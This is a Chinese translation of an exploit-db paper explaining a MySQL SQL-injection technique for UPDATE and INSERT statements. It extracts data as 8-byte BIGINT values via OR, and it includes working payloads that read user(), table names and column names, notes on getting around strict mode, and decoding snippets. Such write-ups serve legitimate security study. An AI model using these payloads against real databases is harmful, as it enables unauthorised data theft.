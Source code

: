 > 原文链接: https://www.anquanke.com//post/id/85487 


# 【技术分享】一种新的MySQL下Update、Insert注入方法


                                阅读量   
                                **239192**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：exploit-db.com
                                <br>原文地址：[https://www.exploit-db.com/docs/41275.pdf](https://www.exploit-db.com/docs/41275.pdf)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p5.ssl.qhimg.com/t01b1716e4413fc281a.png)](https://p5.ssl.qhimg.com/t01b1716e4413fc281a.png)

翻译：[testvul_001](http://bobao.360.cn/member/contribute?uid=780092473)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

目前我们一般通过报错和时间盲注来对update和insert语句进行SQL注入，下面我们来讲解一种新的获取数据的方法。

首先我们来看一个简单的例子，假设应用会将username字段的结果会返回给我们：

```
$query = "UPDATE users SET username = '$username' WHERE id = '$id';";
```

HTTP应用中的参数是这样的：

```
username=test&amp;id=16
```

我最近研究的带内，带外攻击技巧刚好适用于这个场景，要理解我的技巧，我们可以先看下Mysql 是如何处理字符串的。在Mysql 中一个字符串等于 ‘0’，我们来看一下：

[![](https://p1.ssl.qhimg.com/t01cc281a4e0b2273e5.png)](https://p1.ssl.qhimg.com/t01cc281a4e0b2273e5.png)

假如我们把字符串和数字相加，结果和0 加这个数字一样：

[![](https://p0.ssl.qhimg.com/t01a5d3f314475c813a.png)](https://p0.ssl.qhimg.com/t01a5d3f314475c813a.png)

Mysql的这个属性给了我一些灵感，我们来看看BIGINT的最大值加上一个字符串会怎样？

[![](https://p3.ssl.qhimg.com/t01b604af8353f73320.png)](https://p3.ssl.qhimg.com/t01b604af8353f73320.png)

结果是 ‘1.8446744073709552e19’，这表明字符串实际上作为八字节的DOUBEL类型来处理。

[![](https://p4.ssl.qhimg.com/t0100a4f0da080b0577.png)](https://p4.ssl.qhimg.com/t0100a4f0da080b0577.png)

将一个DOUBLE类型和大数字相加会返回IEEE格式的值，为了解决这个问题我们可以使用OR。

[![](https://p2.ssl.qhimg.com/t0137dca0c4a3280ddb.png)](https://p2.ssl.qhimg.com/t0137dca0c4a3280ddb.png)

现在我们得到了最大的64bit无符号的BIGINT值0xffffffffffffffff。我们需要注意通过OR获取数据时，这个值必须小于BIGINT（不能超过64bit）。

<br>

**转换字符串为数字**

为了获取数据我们可以将应用输出的字段转换为数字，然后再解码回来，如下步骤：

```
String -&gt; Hexadecimal -&gt; Decimal
```

[![](https://p2.ssl.qhimg.com/t010a9008eb233745ae.png)](https://p2.ssl.qhimg.com/t010a9008eb233745ae.png)

通过SQL，Python和Ruby等语言我们可以将数字转回字符串，如下：

```
Decimal -&gt; Hexadecimal -&gt; String
```

[![](https://p5.ssl.qhimg.com/t0162c38655fe29fbab.png)](https://p5.ssl.qhimg.com/t0162c38655fe29fbab.png)

如上面提到的，Mysql中的最大值为BIGINT，我们不能超过它，也就是说每次提取的字符串不能超过8位。

[![](https://p5.ssl.qhimg.com/t01844be893e5213c30.png)](https://p5.ssl.qhimg.com/t01844be893e5213c30.png)

4702111234474983745可以被解码为AAAAAAAA，如果再加一个A,我们就不能正确解码了，因为返回的结果会是无符号的BIGINT值0xffffffffffffffff。

[![](https://p3.ssl.qhimg.com/t0164cc3747191e6a88.png)](https://p3.ssl.qhimg.com/t0164cc3747191e6a88.png)

如果需要获取的数据超过8个字节，我们需要使用substr()方法来将数据分片。

```
select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);
```

n的取值为1、2、3…比如我们要获取的username长度超过8个字符，我们首先获取前八个字符，然后继续获取后面的8个直到得到NULL。

[![](https://p5.ssl.qhimg.com/t0112037d2bc764e2c3.png)](https://p5.ssl.qhimg.com/t0112037d2bc764e2c3.png)

最后我们把user()函数获得的数据解码。

[![](https://p0.ssl.qhimg.com/t01a7a74317de6f00ae.png)](https://p0.ssl.qhimg.com/t01a7a74317de6f00ae.png)

<br>

**注入技巧**

**获取表名**

```
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**获取列名**

```
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**利用UPDATE语句**

下面我们通过一个例子来说明如何利用更新语句。

[![](https://p0.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)](https://p0.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)

实际的查询语句可能是这样的：

[![](https://p2.ssl.qhimg.com/t011d353490f781c9c2.png)](https://p2.ssl.qhimg.com/t011d353490f781c9c2.png)

[![](https://p4.ssl.qhimg.com/t01f035c0c8d3056e1c.png)](https://p4.ssl.qhimg.com/t01f035c0c8d3056e1c.png)

**利用INSERT语句**

原始SQL语句如下：

```
insert into users values (17,'james', 'bond');
```

我们可以像update语句中一样获取数据：

```
insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);
```



**<br>**

**MySQL 5.7中的限制**

你可能注意到这种方法在MySQL 5.7.5之后的版本并不奏效。

[![](https://p1.ssl.qhimg.com/t01b2d273751c10ecc4.png)](https://p1.ssl.qhimg.com/t01b2d273751c10ecc4.png)

通过研究MySQL 5.7发现Mysql服务器默认运行在‘Strict SQL Mode’下，在MySQL 5.7.5里，默认的模式包含‘STRICT_TRANS_TABLES’。在 ‘Strict SQL Mode’ 下我们不能将integer转换为string。

[![](https://p1.ssl.qhimg.com/t01b58383a4c7198204.png)](https://p1.ssl.qhimg.com/t01b58383a4c7198204.png)

为了解决这个问题，我们需要在注入时一直使用一个integer类型，这样就不会有任何问题了。

[![](https://p1.ssl.qhimg.com/t01c0f333a1564337c4.png)](https://p1.ssl.qhimg.com/t01c0f333a1564337c4.png)

另外任何用户都可以在他的会话里关闭‘Strict Mode’。

[![](https://p5.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)](https://p5.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)

如果想设置影响所有客户端的全局属性需要SUPER权限。

[![](https://p4.ssl.qhimg.com/t01705d4634503b37c6.png)](https://p4.ssl.qhimg.com/t01705d4634503b37c6.png)

开发者也可以使用‘IGNORE’关键字来忽略‘Strict Mode’，如‘INSERT IGNORE’或者‘UPDATE IGNORE’。

[![](https://p1.ssl.qhimg.com/t018bc3ee06bf7f0821.png)](https://p1.ssl.qhimg.com/t018bc3ee06bf7f0821.png)

<br>

**解码Decoding**

SQL

```
select unhex(conv(value, 10, 16));
```

Python

```
dec = lambda x:("%x"%x).decode('hex')
```

Ruby



```
dec = lambda %7B |x| puts x.to_s(16).scan(/../).map %7B |x| x.hex.chr %7D.join %7D或
dec = lambda %7B |x| puts x.to_s(16).scan(/w+/).pack("H*") %7D
```
